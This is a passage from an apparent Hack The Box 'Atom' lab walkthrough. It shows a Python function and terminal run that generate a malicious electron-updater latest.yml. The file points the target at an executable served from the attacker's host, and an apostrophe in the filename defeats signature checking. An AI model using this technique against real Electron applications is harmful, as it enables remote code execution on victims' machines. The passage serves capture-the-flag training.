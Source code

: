 ## YAML

Putting it together in a YAML:

```python
def gen_yaml(ip, payload, size, sum, dir):

    print("\n=== Generating YAML File ===\n")

    yml_string = ("version: 1.0.1\n"
        "files:\n"
        "  url: http://{ip}/{payload}\n"
        "  sha512: {sha}\n"
        "  size: {size}\n"
        "path: {payload}\n"
        "sha512: {sha}\n"
        "releaseDate: '2021-04-21T11:17:02.627Z'"
        ).format(ip=ip, payload=payload, sha=sum, size=size)
    
    print(yml_string)

    yml_path = dir + "/latest.yml"

    with open(yml_path, 'a') as f:
        f.write(yml_string)
        f.close()

    print("YAML saved at " + yml_path)

    return yml_path
```

We can run it and show the file is saved:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py --lint tun0 --dir to-serve -p "to-serve/heedv1'Setup1.0.1.exe" 10.10.10.237
IP Address on interface tun0: 10.10.14.39

=== Generating Payload ===

Payload Path: to-serve/heedv1'Setup1.0.1.exe
Size: 73802
Base64-encoded SHA512-sum of payload: UboG1lEwJPbfExtL8ttp6CbfYi9nJ3mOZ8TAZzQ2ETcdq+OBXJWM/B1x6B2jEEpR8u7umo3RC5Npr15lmMjjLA==

=== Generating YAML File ===

version: 1.0.1
files:
  url: http://10.10.14.39/heedv1'Setup1.0.1.exe
  sha512: UboG1lEwJPbfExtL8ttp6CbfYi9nJ3mOZ8TAZzQ2ETcdq+OBXJWM/B1x6B2jEEpR8u7umo3RC5Npr15lmMjjLA==
  size: 73802
path: heedv1'Setup1.0.1.exe
sha512: UboG1lEwJPbfExtL8ttp6CbfYi9nJ3mOZ8TAZzQ2ETcdq+OBXJWM/B1x6B2jEEpR8u7umo3RC5Npr15lmMjjLA==
releaseDate: '2021-04-21T11:17:02.627Z'
YAML saved at to-serve/latest.yml
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ ls to-serve/
"heedv1'Setup1.0.1.exe"   latest.yml
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ cat to-serve/latest.yml 
version: 1.0.1
files:
```